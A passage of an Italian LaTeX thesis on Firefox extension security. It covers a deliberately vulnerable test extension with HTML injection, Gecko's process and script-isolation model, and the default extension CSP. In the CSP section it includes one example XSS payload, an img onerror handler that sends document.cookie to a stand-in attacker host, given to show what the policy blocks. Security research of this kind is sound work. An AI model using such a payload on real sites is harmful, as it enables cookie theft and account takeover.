        L'attaccante controlla le risorse di una applicazione web raggiungibile dall'esterno tramite 
        protocollo http/s; che egli abbia o meno controllo sul sistema informatico ospitante l'applicazione
        è indifferente ai fini della ricerca.
        La vittima è un utente privo di competenze in ambito cybersicurezza, è stata persuasa ad utilizzare
        la propria installazione del browser Firefox per navigare sul sull'URL malevolo controllato
        dall'attaccante.
        Il sistema informatico della vittima ospita una istanza del browser Firefox sulla
        quale è stata installata una estensione vulnerabile che è stata rappresentata nel mio ambiente
        di ricerca dall'estensione \vuln di cui si parlerà nella \Sezione{sec:estensione-vuln}.
        L'attaccante non ha alcun modo di accedere o contattare direttamente il sistema informatico della vittima. 


    \section{L'estensione \vuln}
    \label{sec:estensione-vuln}
        Ritenendo che la sola analisi statica del codice sorgente di Firefox non potesse essere
        sufficiente ai fini del mio studio, ho deciso di simulare lo scenario descritto nella
        \Sezione{sec:threat-scenario} creando e installando nel browser una estensione che contenesse
        un qualche errore logico sfruttabile da un potenziale attaccante per tentare di compromettere
        il sistema informatico della vittima.
        Basandomi sulla Top-Ten Owasp delle vulnerabilità nelle applicazioni web \cite{owasp-top-ten}, ho ritenuto
        che l'introduzione di codice vulnerabile ad attacchi di html injection potesse considerarsi uno scenario
        sufficientemente realistico ai fini della mia ricerca.
        Un attacco di html injection consiste nel riuscire ad iniettare ed eseguire codice html nella pagina web
        visualizzata dal browser della vittima; se oltre ad html l'attaccante dovesse riuscisse ad eseguire anche 
        codice \JS allora sarebbe capace di performare attacchi di Cross-Site Scripting aprendo alla possibilità
        di una ancora più profonda compromissione del sistema. Normalmente questo genere di attacchi viene
        attuato sul codice front-end di una applicazione web per abusare delle funzionalità dell'applicazione
        a scapito dell'utente oppure come trampolino verso altre applicazioni (si pensi agli
        attacchi di Cross-Site Request Forgery in cui la pagina vulnerabile viene sfruttata per
        inviare richieste verso una seconda applicazione).\\
        Ogni contesto \JS ha associato un oggetto \code{document}, tra Content Script, Background Script, sidebar,
        popup e pagina opzioni, ogni estensione ha potenzialmente almeno cinque finestre su cui tentare
        html injection, ho scelto di inserire la vulnerabilità nella finestra della sidebar, le ragioni di
        questa scelta sono tre:
        \begin{enumerate}
            \item Il contesto d'esecuzione \JS della sidebar è lo stesso degli script di background, esso espone
                    API che consentono di interagire con vari servizi del browser il che rende la sidebar un
                    bersaglio di alto valore.

            \item Mentre la finestra dei content script è la stessa della pagina in cui stanno venendo eseguiti,
                    invece la sidebar possiede una finestra a sé stante, visualizzabile in qualunque momento e 
                    persistente nella facciata del browser rendendola facile da monitorare.

            \item È un punto che potrebbe verosimilmente contenere codice vulnerabile e raggiungibile dall'attaccante.
                    Trattandosi di una finestra è lecito supporre che venga utilizzata per visualizzare dati raccolti 
                    dall'estensione, dati che devono essere inseriti nel documento html visualizzato.
                    Come gia detto, la finestra può essere aperta solo dall'utente e non
                    è in grado di effettuare richieste verso risorse esterne. In uno scenario verosimile l'ipotetico programmatore
                    di \vuln si sarebbe sentito protetto da queste restrizioni e avrebbe incautamente implementato
                    la logica della UI in modo approssimativo, ignorando i warning dei tool di
                    sviluppo e introducendo codice vulnerabile nel programma.
        \end{enumerate}

        La figura \ref{fig:sidebar-screenshot} mostra la sidebar di \vuln{} aperta sulla sinistra della pagina
        web controllata dall'attaccante, il riquadro scuro in basso mostra invece il codice html del documento.
        La sidebar sta visualizzando dieci coppie chiave-valore che l'estensione ha estrapolato dal codice
        del sito malevolo, nel \Capitolo{cap:attaccando-vuln} si approfondirà in che modo l'attaccante sfrutta i
        valori di queste coppie per iniettare codice html.

        \begin{figure}[ht]
            \centering                                                  
            
\includegraphics[width=0.8\textwidth]{sidebar-screenshot.png}
            \caption{Visualizzazione della sidebar di \vuln accanto al sito malevolo}
            \label{fig:sidebar-screenshot}                             
        \end{figure}
    

\chapter{L'infrastruttura di sicurezza Firefox}
\label{cap:infrastruttura-sicurezza-firefox}
    Ogni sito internet moderno ha in qualche modo il bisogno di interagire con la rete,
    con uno storage locale, con il file system e con dispositivi audio e video, tutte
    risorse gestite dal sistema operativo. Pertanto ogni sito deve poter interagire con
    il sistema operativo della macchina client; dare questo livello di accesso a codice
    insicuro significa esporre il sistema ad alti rischi di sicurezza. Per queste ragioni
    il browser deve esporre API che rendano possibili le operazioni richieste dal sito
    senza però compromettere la macchina host.\\
    Firefox non è direttamente responsabile della sicurezza del sistema, questo aspetto è
    invece gestito da rendering engine Gecko di cui Firefox è il front-end.
    Gecko applica quanto detto separando il codice ritenuto insicuro dal codice "sicuro",
    isolandolo in processi separati e comunicanti e racchiudendo gli script in esecuzione in compartimenti.
    Così facendo i vari script sono separati sia a
    livello applicativo, che a livello di processo.
    Per queste ragioni il capitolo è separato in due sezioni, la \refSection{sec:modello-processi}
    spiega il modello di separazione dei processi mentre la \refSection{sec:sicurezza-script}
    disseziona il modello di sicurezza all'interno del singolo processo ospitante più
    compartimenti.

    \section{Modello processi}
    \label{sec:modello-processi}
        Il codice che compone Firefox e Gecko non è eseguito sotto un unico processo, diversi servizi
        sono eseguiti in diversi processi per garantire solidità nel caso di fallimenti o 
        compromissioni esterne; si dividono in tre categorie:
        \begin{itemize}
            \item \textbf{Parent Process}: è il processo principe nonché padre di tutti gli altri,
                è incaricato di coordinare i processi figlio e gestire la comunicazione tra di essi.
                Visualizza pagine ad alti privilegi come \code{about:preferences} e \code{about:config},
                pertanto ospita un ambiente di esecuzione ristretto.

            \item \textbf{Helper Processes}: sono processi che ospitano servizi, tra essi vi sono servizi
                di interazione con il file system, con la rete, con le immagini e altri ancora.

            \item \textbf{Content Processes}: sono processi usati per renderizzare contenuto web, insieme
                al Parent sono gli unici a poter eseguire codice Javascript. Vengono suddivisi in 
                "remote-type", proprietà che specificano i privilegi di accesso agli API \JS{}.

        \end{itemize}
        La figura \ref{fig:process-model} mostra uno schema dei processi che compongono Firefox, separati in
        Helper Processes e Content Processes. La stringa tra parentesi sotto ogni Content Process è il
        remote-type associato al processo. Ogniuno avrebbe bisogno di una discussione dedicata,
        ma ai fini dell'articolo tratterò solo due di essi:
        \begin{itemize}
            \item \textbf{WebExtensions Content Process}: È utilizzato per caricare pagine
                in background e i subframe delle estensioni web; esiste una sola istanza di
                questo processo ed ha assegnato il remote-type "extension" che garantisce 
                l'accesso al WebExtensionAPI e alla Shared Memory. Tutte le estensioni condvidono
                questo processo e sono visibili tra di loro.
                L'unica eccezione sono i subframe che caricano contenuti dall'URI \code{moz-extension://},
                al momento tali contesti convivono nello stesso processo del genitore invece che
                nel processo WebExtensions.

            \item \textbf{Isolated Web Content Process}: Sono usati per ospitare contenuti web attribuiti ad un sito,
                il codice web eseguito in questi processi è considerato insicuro e l'accesso diretto agli
                API di sistema non è permesso. Un nuovo web content viene allocato per ogni sito visitato su
                una browser tab, qualsiasi dominio visitato su una tab differente produce un nuovo processo
                Web Content isolato, invece subframe aperti sullo stesso dominio del superframe contenitore
                vengono eseguiti nello stesso processo del super-frame.
        \end{itemize}

        \begin{figure}[ht]
            \centering
            \includegraphics[width=0.9\textwidth]{process_model.png}
            \caption{Il modello processi di Gecko. L'immagine è stata presa dalla documentazione ufficiale Firefox \cite{firefox-process-model}}
            \label{fig:process-model}
        \end{figure}

    \section{Sicurezza livello script}
    \label{sec:sicurezza-script}
        Il codice Javascript eseguito da Gecko non proviene solo da fonti terze come pagine web o estensioni,
        l'interfaccia grafica del browser e la logica sono controllati da moduli javascript ad
        alti privilegi di accesso. Pertanto gli script web non possono eseguire nello stesso ambiente del
        javascript di sistema. Isolare ogni contesto \JS{} in un processo separato, applicando alla lettera
        il modello processi, potrebbe sembrare sufficiente, ma renderebbe la comunicazione più complessa
        e sarebbero comunque necessari script per gestire le attività nel processo stesso.
        Per queste e altre ragioni, si è dovuto creare un sistema che coordinasse più script in esecuzione
        nello stesso processo e definire delle politiche di interazione tra essi. 
        Questa sezione descrive tali politiche.

        \subsection{Security Policy}
        \label{sec:sicurezza-script-security-policy}
            Una Security Policy è una definizione di che cosa significhi "essere sicuro" per un sistema.
            Nel caso di Gecko definisce il livello di accesso garantito verso un oggetto da parte di un
            altro oggetto in relazione a due rapporti: Origine e Privilegi.
            Gli oggetti dotati di stessa "origine" sono detti \code{"same-origin"} e hanno libero accesso
            alle proprietà, oggetti dotati di "origine" differente sono detti \code{"cross-origin"}
            e hanno accesso molto ristretto alle proprietà reciproche.\\
            Se l'oggetto acceduto si trova in un contesto meno privilegiato, allora l'accedente avrà
            garantiti tutti i permessi ma potrà vedere solo un insieme ristretto di proprietà.
            Se l'oggetto acceduto dovesse trovarsi in un contesto più privilegiato, l'accedente non otterà 
            alcun privilegio.
            Script "privilegiati" hanno la possibilità di clonare uno o piu oggetti in contesti
            meno privilegiati per offrire API sui servizi.

        \subsection{Same-Origin Policy}
        \label{sec:sicurezza-script-same-origin-policy}
            La Same-Origin Policy è un insieme di regole d'accesso a risorse situate su altre "origini".
            L' "origine" di una risorsa è definita come tripla di protocollo, dominio e porta, due risorse
            che condividono la stessa origine sono dette \code{same-origin}, altrimenti \code{cross-origin}.
            Le restrizioni imposte dalla Same-Origin Policy dipendono dal contesto d'uso:
            \begin{itemize}
                \item \textbf{Rete}. Solitamente una risorsa di rete \code{cross-origin} ottiene accesso in
                    scrittura ed embedding mentre la lettura viene proibita, cioé viene reso possibile
                    inviare richieste cross-origin e incorporare risorse esterne ma non è possibile
                    conoscere il contenuto della risposta.

                \item \textbf{Storage}. Il browser offre spazi di archiviazione condivisi tra gli script
                    provenienti dalla stessa origine e non accessibili da fonti \code{cross-origin}.
                    Per i cookie invece funziona diversamente. Essi usano una definizione diversa di 
                    "orgine" e possono essere impostati sia sul prorpio dominio che su domini "genitore".

                \item \textbf{Javascript API}. Quando uno script deve accedere ad uno spazio di
                    memoria \code{cross-origin}, ottiene visibilità unicamente su due oggetti: \code{window}
                    e \code{location} e solo un sottoinsieme delle loro proprietà è accessibile. Due sono
                    rilevanti per questo articolo: \code{.postMessage} di \code{window}, che consente di 
                    scambiare dati tra contesti \code{cross-origin}, e \code{.href} di \code{location}, 
                    accessibile solo in scrittura, permette di redirigere la finestra verso un altro URL.
            \end{itemize}

            \subsubsection{Eccezioni}
                Non tutti i protocolli vengono trattati allo stesso modo dalla Same-Origin Policy, le risorse
                caricate da \code{about:blank} o \code{javascript:} sono considerate avere la stessa origine del
                documento che le contiene, mentre l'origine \code{file:///} è trattata come origine opaca cioè
                le risorse ottenute con questo protocollo non sono mai considerate same-origin, nemmeno se
                risiedenti nella stessa directory.


        \subsection{Compartimenti Javascript}
            I compartimenti sono aree di memoria indipendenti e sono alla base della sicurezza degli script
            in Gecko; ogni oggetto globale e gli oggetti associati alle sue proprietà condividono lo stesso
            compartimento. Gli oggetti memorizzati in un compartimento non sono direttamente accessibili da 
            script appartenente ad un compartimento diverso, la condivisione di oggetti è ottenuta tramite
            oggetti wrapper memorizzati nel compartimento dello script che referenziano l'oggetto originale,
            il grado di accesso fornito dal wrapper verso l'oggetto rappresentato è determinato da Gecko
            secondo la Security Policy.
            I criteri di origine sono valutati considerando come "origine" l'url dell'istanza di \code{window}, 
            che è oggetto globale di ogni compartimento. I criteri di privilegio sono invece determinati
            secondo l'Entità di Sicurezza del compartimento.
            \begin{itemize}
                \item \textbf{Same-Origin.} È il caso più comune, all'oggetto accedente viene concesso un
                    wrapper trasparente che garantisce accesso completo all'oggetto richiesto come se 
                    fosse parte dello stesso compartimento. 

                \item \textbf{Cross-Origin.} Gecko assegna un wrapper cross-origin che limita l'accesso 
                    secondo la Same-Origin Policy.

                \item \textbf{Privilegio Maggiore.} Se lo scope acceduto ha privilegi minori, allora si
                    ottiene un wrapper Xray, la Xray Vision verrà approfondita più avanti, nella sezione
                    \refSection{sec:sicurezza-xray-vision}

                \item \textbf{Privilegio Minore.} Se lo scope acceduto ha privilegi maggiori, allora si
                    ottiene un wrapper opaco che nega l'accesso all'oggetto.
            \end{itemize}

        \subsection{Entità di Sicurezza}
        \label{sec:security-principal}
            Un Entità di Sicurezza è qualunque entità che puo essere autenticata da un sistema, in Gecko
            esistono quattro entità sulle quali è definita una relazione di sicurezza.
            Per determinare il rapporto tra due entità si verifica se ciascuna sussume l'altra.
            Le quattro entità sono:
            \begin{itemize}
                \item \textbf{Entità di sistema.} Supera ogni check di sicurezza, sussume sè stessa e
                    tutte le altre entità. I compartimenti che eseguono codice di sistema sono istanze
                    di questa entità.

                \item \textbf{Entità di Contenuto.} È associata ai contenuti web ed è definita 
                    dall'origine del contenuto, sussume ogni altra entità con cui condivida
                    l'origine.

                \item \textbf{Entità Espansa.} È definita come una lista di "origini" su cui si ha accesso
                    completo, essa sussume ogni entità che abbia inclusa la propria origine nella lista
                    ma non è sussunta da nessuna di esse.
                    Un esempio di impiego delle entità espanse sono i Content Script delle estensioni che
                    possono accedere al contenuto di più pagine ma non viceversa. In generale l'entità
                    espansa è utilizzata per garantire permessi cross-origin allo script senza però
                    renderlo entità di sistema.

                \item \textbf{Entità Nulla.} Fallisce quasi tutti i check e non sussume sè stesso, può
                    essere acceduto solo da un'entità di sistema.
            \end{itemize}
            Le entità non modellizzano solo il livello di privilegio del compartimento ma anche l'origine
            el il test di relazione fornisce le informazioni sufficienti a computare un wrapper secondo
            la Security Policy, infatti se un compartimento sussume l'altro allora deve avere privilegi pari
            o maggiori, se entrambi si sussumano allora sono \code{same-origin}, se nessuno sussume allora
            si tratta di un accesso \code{cross-origin} se invece è uno solo dei due a sussumere allora
            vi è una differenza di privilegi. L'algoritmo di decisione impiegato da Gecko è rappresentato
            in questo grafico:
            \begin{figure}[ht]
                \centering                                                  %% centrata
                
\includegraphics[width=0.5\textwidth]{computing-a-wrapper}  %% il file si chiama "computing-a-wrapper", larga 0.5 volte la largezza del testo
                \caption{Computare un wrapper}                              %% sotto l'immagine c'è una linea descrittiva
                \label{fig:computing-a-wrapper}                             %% potrà essere referenziata da link del documento con questo nome
            \end{figure}

        \subsection{Xray Vision}
        \label{sec:sicurezza-xray-vision}
            Javascript è un linguaggio molto malleabile il che lo rende imprevedibile in una contesto di
            sicurezza, oggetti provenienti da compartimenti insicuri potrebbero venire adeguatamente
            modificati per ingannare gli script privilegiati ad eseguire codice malevolo; per arginare
            il problema Gecko fa uso dei wrapper Xray, che consentono accesso completo alla forma "base"
            dell'oggetto ignorando le modifiche attuate dagli script, il modo in cui viene ottenuta
            dipende dall'oggetto acceduto.\\
            Gli elementi del DOM sono gli oggetti piu comuni e hanno due implementazioni: 
            una a livello Javascript che "vive" all'interno del proprio compartimento e memorizza lo
            stato corrente dell'oggetto, e una in codice nativo C++ che descrive la forma base
            dell'oggetto, quando il codice privilegiato deve accedere ad un elemento del DOM, gli viene
            restituito un wrapper Xray che mostra le proprietà della rappresentazione nativa. 
            Alcuni oggetti esistono solo nel runtime Javascript, come gli \code{Array} o le \code{Promise},
            allora si restringono le loro proprietà trattandoli come dizionari: metodi, getter e setter 
            sono ignorati per impedire l'esecuzione di codice malevolo mentre il prototype di \code{Object}
            e \code{Array} viene rimpiazzato con il prototipo standard garantendo l'integrità.\\
            Semmai il codice privilegiato avesse bisogno di conoscere lo stato corrente dell'oggetto la
            visione Xray può venire attenuata programmaticamente accedendo alla prorpietà \code{.wrappedJSObject},
            ma a questo punto non si avrebbero piu garanzie di sicurezza su di esso, nè sui "figli".

        \subsection{Le difese delle estensioni}
        Nel \Capitolo{cap:infrastruttura-sicurezza-firefox} ho discusso il sistema di sicurezza generale
        degli script in Firefox, in questa sezione si mostreranno le difese specifiche dell'ambiente
        WebExtension. Consci dei rischi dietro l'abuso del WebExtension API, gli sviluppatori mozilla
        hanno cercato di ridurre al minimo le feature accessibili alle estensioni facendo una
        distinzione netta fra gli script che interagiscono con il browser e gli script che interagiscono
        con le pagine.
    
            \subsubsection{I content script}
            \label{sec:difese-content-script}
                In Manifest V2 i content script non hanno Content Security Policy, mentre in Manifest V3 sono soggetti
                alla CSP di default delle estensioni \refSection{sec:difese-background-sidebar}.
                A differenza dei background script il loro codice è ospitato in ogni Browsing Context 
                che veda la propria origine tra le origini specificate nella voce \code{"matches"} del \manifest dell'estensione.
                La figura \ref{fig:vuln-manifest-contentscript} è un esempio di quanto detto,
                la voce \code{"content\_scripts"} è una lista di configurazioni dei content script introdotti dall'estensione,
                l'esempio dichiara un content script \file{content/csMain.js} che deve eseguirsi su tutte le
                origini che rispettano le espressioni regolari della voce \code{"matches"}.
    
                \begin{figure}[ht]
                    \centering
                    
\includegraphics[width=0.85\textwidth]{vuln-manifest-content-script.png}
                    \caption{Sezione content\_scripts nel \manifest di \vuln}
                    \label{fig:vuln-manifest-contentscript}
                \end{figure}
    
                I content script possono accedere ad un insieme ristretto di WebExtension API, perlopiù event listener,
                servizi di messaging, conversione dei locales e storage.
    
            \subsubsection{I background script e la sidebar}
            \label{sec:difese-background-sidebar}
                Sugli script di background e le UI viene applicata una CSP di default modificabile soltanto dal
                \manifest dell'estensione, i dettagli della policy differiscono tra Manifest V2 e V3. Nella
                mia ricerca ho trattato solo la versione 2 del manifest pertanto tratterò solo le specifiche
                di quest'ultima.
                La CSP di background è piu severa rispetto ai content script volta a restringere le origini
                da cui caricare codice \JS e pratiche di programmazione potenzialmente insicure, la specifica
                standard del manifest V2 è:
                \begin{lstlisting}
                    "script-src 'self'; object-src 'self';"
                \end{lstlisting}
                Nel pratico la riga precedente si traduce in quattro restrizioni:
                \begin{itemize}
                    \item Risorse \code{<script>} e \code{<object>} possono essere caricate solo da origini
                            locali all'estensione (ovvero file collocati nella stessa cartella). Tutte le
                            richieste che cercheranno di includere codice nella pagina proveniente da origini
                            considerate insicure verranno bloccate silenziosamente.
    
                    \item Non è concesso evaluare stringhe come codice \JS. L'uso di funzioni come
                            \code{eval()}, \code{setTimeout()}, \code{setInterval()} e \code{Function()}
                            per eseguire il contenuto di stringhe come codice \JS viene bloccato silenziosamente.
                    
                    \item Non è consentito eseguire codice \JS inline. Con codice inline si intende codice
                            \JS hard-coded in elementi html, come quello contenuto nel tag \code{<script>}
                            quando non viene utilizzato per includere file script. Un esempio è l'abuso degli
                            event listener dichiarabili direttamente sui tag html per eseguire \JS malevolo:\\
                            \code{<img src="invalid" onerror=fetch("http://attacker/?" + document.cookie) >}        
    
                    \item Non è consentito eseguire codice WebAssembly. Si tratta di codice in formato binario
                            pensato per applicazioni ad alta efficienza rilasciabili sul web. Inoltre è un target
                            di compilazione per compilatori C,C++,C\# e Rust, permettendo di scrivere applicazioni
                            web anche in questi linguaggi.
                
                \end{itemize}
                Questa politica è applicata su ogni estensione che non abbia esplicitamente modificato la voce
                \code{"content\_security\_policy"} del suo \manifest e non è modificabile programmaticamente.
   

\chapter{WebExtension nel dettaglio}
\label{cap:webextension-dettaglio}

    Il capitolo riassume la logica e le strutture che danno vita al WebExtension Framework all'interno
    del runtime Gecko. I concetti che verranno introdotti permeano i capitoli precedenti e daranno
    una chiave di lettura più dettagliata dei capitoli che seguiranno, anche se raramente menzionati.\\
    Con questi presupposti il capitolo inizia dal discutere uno dei piu importanti componenti di Gecko,
    XPCOM, nella \refSection{sec:xpcom}.
    Dopo XPCOM, le tre sezioni successive trattano dettagliatamente del WebExtension Framework.
    \refSection{sec:webextension-files} offre una panoramica dei file coinvolti, mentre \refSection{sec:webextension-extension-runtime}
    e \refSection{sec:webextension-api-rpc} approfondiscono i sistemi di gestione delle estensioni e
    degli API a runtime.

    \section{XPCOM}
    \label{sec:xpcom}
        XPCOM Framework è un ambiente di sviluppo multi piattaforma che astrae elementi del sistema operativo,
        come la gestione della memoria, passing di messaggi e memoria condivisa, e fornisce interfacce di 
        comunicazione tra linguaggi programmazione; è il collante fondamentale tra i processi e le componenti di
        Gecko. Tra le feature di XPCOM il sottosistema XPConnect offre un linguaggio per definire
        interfacce di programmazione chiamato \idl{} ( Interface Definition Language ) e un linguaggio per definire protocolli
        di comunicazione inter-processo ed RPC chiamato \ipdl{} (Inte-process comunication Protocol Definition Language);
        il file di definizione, sia esso \idl{} o \ipdl{}, viene compilato in rappresentazioni equivalenti nei linguaggi
        di destinazione mentre la logica è implementata dal programmatore usando uno dei linguaggi specificati,
        al momento XPConnect supporta C++, Rust, Python, Javascript e pochi altri, tutti impiegati nello sviluppo
        di Gecko.\\
        Voglio aprire una parentesi di approfondimento su \ipdl{} per fare chiarezza sul concetto di \textit{Attore}, 
        menzionato nelle sezioni successive. A differenza delle interfacce un protocollo ha bisogno di due entità,
        dette Attori, che utilizzino il protocollo a fine di comunicativo, \ipdl{} si riferisce ad essi come 
